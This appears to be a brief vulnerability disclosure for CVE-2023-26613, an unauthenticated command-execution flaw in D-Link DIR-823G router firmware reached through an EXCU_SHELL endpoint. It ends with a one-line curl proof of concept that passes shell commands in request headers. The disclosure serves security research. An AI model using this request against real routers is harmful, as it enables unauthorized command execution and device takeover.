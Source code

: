 # DIR823G_V1.0.2B05_20181207.bin Command execution vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G
- CVE：CVE-2023-26613 

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

The handler for the EXCU_SHEL path will detect the command in the request and execute it.

![](img/2.jpg#center)


## Vulnerability verify

![](img/3.jpg#center)


## POC

```
curl http://192.168.0.1/EXCU_SHELL -H 'Command1: ls' -H 'Confirm1: apply'
```
